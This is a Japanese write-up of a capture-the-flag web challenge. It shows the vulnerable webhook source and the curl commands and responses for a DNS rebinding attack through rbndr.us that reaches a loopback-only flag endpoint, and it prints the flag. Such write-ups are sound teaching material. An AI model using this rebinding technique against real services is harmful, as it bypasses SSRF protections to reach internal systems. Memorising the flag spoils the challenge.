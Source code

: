 ## Intergalactic Webhook Service
### 問題文
```
I got tired of creating webhooks from online sites, so I made my own webhook service! It even works in outer space! Be sure to check it out and let me know what you think. I'm sure it is the most secure webhook service in the universe.

https://supernova.sunshinectf.games/
```
### 添付ファイル
`src.zip`

### 解き方
1. ソースコードを見るとDNSリバインディング攻撃がが利用できそうなことがわかる。

2. src/app.pyの以下の記述から`http://127.0.0.1:5001/flag` にPOSTリクエストを送信できれば、フラグを取得できることがわかる。
```py
FLAG = load_flag()

class FlagHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        # /flag へのPOSTリクエストに対してフラグを返す
        if self.path == '/flag':
            self.send_response(200)
            self.send_header('Content-Type', 'text/plain')
            self.end_headers()
            self.wfile.write(FLAG.encode())
        # ...

# 127.0.0.1:5001 でフラグサーバーを起動
threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()

app = Flask(__name__)

# ...

def is_ip_allowed(url):
    # ...
    # URLのホスト名をIPアドレスに解決
    ip = socket.gethostbyname(host)
    ip_obj = ipaddress.ip_address(ip)
    # プライベートIPやループバックIPを禁止
    if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local or ip_obj.is_reserved:
        return False, f'IP "{ip}" not allowed'
    return True, None
```

3. `rbndr.us` を利用して攻撃用のリンクを作成し、登録する。
```sh
curl -X POST https://supernova.sunshinectf.games/register -d 'url=http://7f000001.08080808.rbndr.us:5001/flag'
```
成功時のレスポンス
```sh
{"id":"62b2f898-c0ca-4f71-94a7-5cb3c1d62af0","status":"registered","url":"http://7f000001.08080808.rbndr.us:5001/flag"}
```
4. 登録したIDをもとにWebhookをトリガーし、DNSリバインディング攻撃を行い、flagを入手する。
```sh
curl -X POST https://supernova.sunshinectf.games/trigger -d 'id=980660b3-5307-417b-a0ed-ba00c1ab367e'
```
成功時のレスポンス
```sh
{"response":"sun{dns_r3b1nd1ng_1s_sup3r_c00l!_ff4bd67cd1}","status":200,"url":"http://7f000001.08080808.rbndr.us:5001/flag"}
```

### 補足
手順3,4はタイミングによって成功するかどうか変わってくるので何度か行う。
なんでこれ10点なん?